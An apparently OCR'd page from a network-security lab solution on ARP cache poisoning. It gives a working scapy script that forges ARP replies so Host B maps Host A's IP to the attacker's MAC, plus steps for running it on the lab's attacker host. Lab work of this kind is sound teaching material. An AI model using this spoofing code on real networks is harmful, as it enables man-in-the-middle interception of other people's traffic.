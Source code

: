 
**`poison_b.py` (Poisons Host B's cache)**

This script sends an ARP reply to Host B (`10.9.0.6`), telling it that Host A's IP (`10.9.0.5`) is at Host M's MAC address (`02:42:0a:09:00:69`).

```python
#!/usr/bin/env python3

from scapy.all import Ether, ARP, sendp
import time

# Define the IP and MAC addresses based on your settings.txt
IP_A = "10.9.0.5"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"
MAC_M = "02:42:0a:09:00:69" # Attacker's MAC

print(f"--- Poisoning Host B ({IP_B}) ---")
print(f"Sending ARP Reply: {IP_A} is at {MAC_M}")

# Construct the Ethernet frame
# Source MAC is the attacker's MAC (MAC_M)
# Destination MAC is Host B's MAC (MAC_B)
ether = Ether(src=MAC_M, dst=MAC_B)

# Construct the ARP packet
# op=2 signifies an ARP Reply
# hwsrc = Sender MAC -> Attacker's MAC (MAC_M)
# psrc  = Sender IP  -> IP we want B to associate with MAC_M (IP_A)
# hwdst = Target MAC -> Victim's MAC (MAC_B)
# pdst  = Target IP  -> Victim's IP (IP_B)
arp = ARP(op=2, hwsrc=MAC_M, psrc=IP_A, hwdst=MAC_B, pdst=IP_B)

# Combine Ethernet and ARP layers
packet = ether/arp

# Send the packet at Layer 2
sendp(packet, iface="eth0", verbose=False)

print("Poisoning packet sent to Host B.")
print("------------------------------------")

```

---

**How to use them for Task 2, Step 1:**

1.  Save the code above into `poison_a.py` and `poison_b.py` on Host M.
2.  Make them executable (optional but good practice): `chmod +x poison_a.py poison_b.py`
3.  Run them with `sudo` on Host M:
    ```bash
    sudo python3 poison_a.py
    sudo python3 poison_b.py
    ```
4.  Verify the ARP caches on Host A and Host B are poisoned as described in the previous steps. You might need to re-run these scripts occasionally if the ARP entries expire during your testing.
